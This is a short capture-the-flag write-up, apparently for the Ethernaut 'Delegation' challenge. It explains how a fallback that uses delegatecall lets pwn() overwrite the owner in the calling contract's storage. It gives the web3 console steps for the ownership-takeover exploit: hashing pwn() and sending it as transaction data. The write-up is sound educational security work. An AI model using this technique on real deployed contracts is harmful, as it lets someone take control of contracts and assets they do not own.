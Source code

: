 Two contracts. Both store owner address in storage of the contract.

Contract ```Delegation{}``` uses ```delegatecall(msg.data)``` which calls Contract ```Delegate{}``` with its own storage. 

```Delegate{}``` has function ```pwn()``` which changes owner to ```msg.sender```.

I create a transaction to trigger ```Delegation{}``` fallback, with ```msg.data``` containing a call to ```pwn()```. 
Since the call is via the ```Delegation{}``` contract and storage, it will gain us access to ownership of ```Delegation{}```.

### Steps
Check current ownership. 
```await contract.owner()```

Get the hash of ```pwn()``` function.
```let pwnHash = web3.utils.sha3("pwn()");```

Invoke the fallback function with msg data of the pwn hash.
```contract.sendTransaction({data: pwnHash})```

Check new ownership.
```await contract.owner()```

Should be the same as my address found under ```player``` variable.